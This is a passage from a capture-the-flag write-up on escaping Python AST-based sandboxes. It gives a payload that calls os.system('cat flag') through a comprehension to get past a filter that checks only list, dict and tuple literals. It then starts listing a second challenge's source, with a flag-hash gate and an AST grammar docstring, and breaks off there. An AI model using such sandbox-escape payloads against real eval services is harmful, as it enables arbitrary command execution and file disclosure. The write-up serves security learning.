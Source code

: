 We can use:
```python
[x for x in __import__("os").system("cat flag")]
```

The the `check` sanitize argument, it only checks list: `{}, [], ()`. However, when we use generator, we can bypass the check.

### 2. Challenge 2

The file:
```python
import sys
import ast
import hashlib


def check_flag1():
    sys.stdout.write('input sha512(flag1) >> ')
    sys.stdout.flush()
    s = sys.stdin.readline().strip()
    flag = open('./flag', 'rb').read().strip()
    if hashlib.sha512(flag).hexdigest() != s:
        exit()
    sys.stdout.write(open(__file__, 'rb').read().decode())
    sys.stdout.flush()

def check(node):
    if isinstance(node, list):
        return all([check(n) for n in node])
    else:
        """
	expr = BoolOp(boolop op, expr* values)
	     | BinOp(expr left, operator op, expr right)
	     | UnaryOp(unaryop op, expr operand)
	     | Lambda(arguments args, expr body)
	     | IfExp(expr test, expr body, expr orelse)
	     | Dict(expr* keys, expr* values)
	     | Set(expr* elts)
	     | ListComp(expr elt, comprehension* generators)
	     | SetComp(expr elt, comprehension* generators)
	     | DictComp(expr key, expr value, comprehension* generators)
	     | GeneratorExp(expr elt, comprehension* generators)
	     -- the grammar constrains where yield expressions can occur
	     | Yield(expr? value)
	     -- need sequences for compare to distinguish between
	     -- x < 4 < 3 and (x < 4) < 3
	     | Compare(expr left, cmpop* ops, expr* comparators)
	     | Call(expr func, expr* args, keyword* keywords,
			 expr? starargs, expr? kwargs)
	     | Repr(expr value)
	     | Num(object n) -- a number as a PyObject.
	     | Str(string s) -- need to specify raw, unicode, etc?
	     -- other literals? bools?

	     -- the following expression can appear in assignment context
	     | Attribute(expr value, identifier attr, expr_context ctx)
	     | Subscript(expr value, slice slice, expr_context ctx)
	     | Name(identifier id, expr_context ctx)
	     | List(expr* elts, expr_context ctx) 
	     | Tuple(expr* elts, expr_context ctx)

	      -- col_offset is the byte offset in the utf8 string the parser uses
	      attributes (int lineno, int col_offset)

```